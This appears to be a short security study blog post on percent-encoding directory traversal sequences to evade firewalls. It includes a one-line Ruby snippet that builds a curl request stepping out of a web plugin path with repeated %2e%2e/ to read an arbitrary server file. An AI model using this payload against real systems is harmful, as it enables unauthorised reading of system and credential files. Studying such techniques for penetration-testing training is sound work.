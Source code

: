 ```yaml
---
layout: post
title: Director Traversal Percent Encoding
titledate: 08/28/23
tags: ["infosec","offsec", "web", "dir_traversal"]
---
```


It may be necessary to % encode the path traversal in the URI request in order to bypass firewalls 

I edited my useless [script](https://github.com/ST4RGUARD/OSCP/blob/master/dir_traversal/plugin_pwn.rb) to illustrate this point 

```ruby
cmd = "curl http://#{ARGV[0]}/public/plugins/#{line}/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/#{ARGV[1]}"
```

